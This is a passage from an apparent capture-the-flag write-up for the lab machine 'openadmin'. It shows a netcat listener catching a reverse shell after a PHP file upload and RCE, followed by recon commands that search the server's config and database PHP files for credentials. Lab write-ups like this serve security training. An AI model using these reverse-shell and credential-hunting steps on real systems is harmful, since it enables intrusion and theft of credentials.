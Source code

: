 
`drwxrwx--- 2 jimmy internal 4096 Nov 23  2019 /var/www/internal`

trying some more one liner reverse shells, because this sucks for recon

```
$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on openadmin.htb 43978
$
```

so the connection is opening, but then immediately being terminated

but.. if we upload the file as a php and then use our RCE:
```
$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on openadmin.htb 43996
/bin/sh: 0: can't access tty; job control turned off
$
```

### pivot from www-data

```
$ mysql
ERROR 1045 (28000): Access denied for user 'www-data'@'localhost' (using password: NO)
$ mysql -u ona_sys
ERROR 1045 (28000): Access denied for user 'ona_sys'@'localhost' (using password: NO)
```

ok, so how is the app connecting to the DB?

```
$ find / -iname 'conf*.php' 2>/dev/null
/opt/ona/www/config/config.inc.php
/opt/ona/www/workspace_plugins/builtin/host_actions/config.inc.php
/opt/ona/www/config_dnld.php
/opt/ona/www/modules/ona/configuration.inc.php
```

nothing popping there.

```
$ find / -iname '*db*.php' 2>/dev/null
```

found a lot more, looking at

```
$ cat /opt/ona/www/include/functions_db.inc.php
...

    // Get info from old $db_context[] array if ona_contexts does not exist
    // this is transitional, hopefully I can remove this part soon.
    if (!is_array($ona_contexts) and is_array($db_context)) {
        $type='mysqlt';
        $ona_contexts[$context_name]['databases']['0']['db_type']     = $db_context[$type] [$context_name] ['primary'] ['db_type'];
        $ona_contexts[$context_name]['databases']['0']['db_host']     = $db_context[$type] [$context_name] ['primary'] ['db_host'];
        $ona_contexts[$context_name]['databases']['0']['db_login']    = $db_context[$type] [$context_name] ['primary'] ['db_login'];
        $ona_contexts[$context_name]['databases']['0']['db_passwd']   = $db_context[$type] [$context_name] ['primary'] ['db_passwd'];
        $ona_contexts[$context_name]['databases']['0']['db_database'] = $db_context[$type] [$context_name] ['primary'] ['db_database'];
        $ona_contexts[$context_name]['databases']['0']['db_debug']    = $db_context[$type] [$context_name] ['primary'] ['db_debug'];
```